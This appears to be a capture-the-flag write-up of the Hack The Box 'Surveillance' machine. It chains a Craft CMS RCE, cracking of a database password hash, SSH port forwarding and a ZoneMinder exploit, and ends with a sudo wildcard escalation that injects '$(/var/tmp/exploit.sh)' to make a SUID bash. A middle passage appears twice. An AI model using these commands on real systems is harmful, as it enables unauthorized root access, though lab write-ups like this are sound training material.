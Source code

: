 ```yaml
---
slug: /write-up/htb/medium/surveillance
pagination_next: null
pagination_prev: null
draft: true
---
```


## Enumeration


```bash
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title:  Surveillance 
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ubuntu jammy running nginx 1.18.0

Browsing the web, we can see the following link: https://github.com/craftcms/cms/tree/4.4.14. Looks like it's made with `craftcms` and we have the precise version.

## Foothold

Looks like it's vulnerable to a RCE vulnerability (fixed by 4.4.15): 

- https://putyourlightson.com/articles/critical-craft-cms-security-vulnerability
- https://blog.calif.io/p/craftcms-rce
- https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226

With latest POC, we got foothoold, now we can run a reverse shell, improve it and start investigating.

Right now we can acess as `wwww-data`.

## Lateral movement

In home we found two users:

```bash
www-data@surveillance:~/html/craft/web/cpresources$ ls /home
matthew  zoneminder
```

There are many things listening in localhost:
```bash
www-data@surveillance:~/html/craft$ netstat -na |grep "LISTEN"
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN  
```

Looks like there's a `ZoneMinder` server running in port 8080 but only listening in localhost. Looks really interesting for later.

I managed to exfiltrate the contents of /var/www and found the configuration to connect to mysql database which contains an entry for admin user:

```bash
MariaDB [craftdb]> select username,fullName,password from users;
+----------+-----------+--------------------------------------------------------------+
| username | fullName  | password                                                     |
+----------+-----------+--------------------------------------------------------------+
| admin    | Matthew B | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe |
+----------+-----------+--------------------------------------------------------------+
```

If we manage to crack the hash, we might get the password of matthew user. Checking the contents, of the web there's a backup of the database which contains a different hash, it might be worth trying to crack it.

Crack it, got the user password for `matthew`: Looks like there's a `ZoneMinder` server running in port 8080 but only listening in localhost. Looks really interesting for later.

I managed to exfiltrate the contents of /var/www and found the configuration to connect to mysql database which contains an entry for admin user:

```bash
MariaDB [craftdb]> select username,fullName,password from users;
+----------+-----------+--------------------------------------------------------------+
| username | fullName  | password                                                     |
+----------+-----------+--------------------------------------------------------------+
| admin    | Matthew B | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe |
+----------+-----------+--------------------------------------------------------------+
```

If we manage to crack the hash, we might get the password of matthew user. Checking the contents, of the web there's a backup of the database which contains a different hash, it might be worth trying to crack it.

Crack it, got the user password for `matthew`. Now we can connect with SSH and read the user flag.

## Privilege escalation

The user cannot run sudo. Now that we have SSH access, we can do port forwarding to access the instance running in localhost:

```bash
ssh -L 8080:localhost:8080 matthew@surveillance.htb
```

We can have access to the ZoneMinder thing by using the user admin and the same password as `matthew`.

Now we can see the version: 
    v1.36.32

Looks like it's vulnerable to https://pentest-tools.com/vulnerabilities-exploits/zoneminder-snapshots-command-injection_22437 because it mentions prior versions to 1.36.33 and 1.37.33

Since the process does not appear for the user `matthew`, it might be running for another user or for `root`. Either way, we can try to exploit the RCE vulnerability and continue from there.

The POC worked perfectly and we got access to user `zoneminder`. Now let's improve the shell and continue.

Checking what the user can do, looks like it can execute some script as root without specifying a password:

```bash
zoneminder@surveillance:~$ sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
zoneminder@surveillance:~$ 
```

This means any user can run any binary called zm*.pl in the /usr/bin/ directory under the root context, no password will be prompted. Morevoer, any option can be passed to the binary since it uses a wildcard in the sudoers file. This is a wide open configuration which can be abused using wildcard injection. Prepare a shell exploit.

```bash
echo 'cp /bin/bash /var/tmp/bash;chmod 4755 /var/tmp/bash' > /var/tmp/exploit.sh
chmod +x /var/tmp/exploit.sh
```

Now just run any zm* binary and inject a command calling the exploit, it will be executed under the root context. For example, using zmupdate with the --version option will force the tool to upgrade the database, and it allows us to inject a command to execute the exploit:

```bash
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/var/tmp/exploit.sh)'
```

Now execute the copied bash with `-p` and we got root access.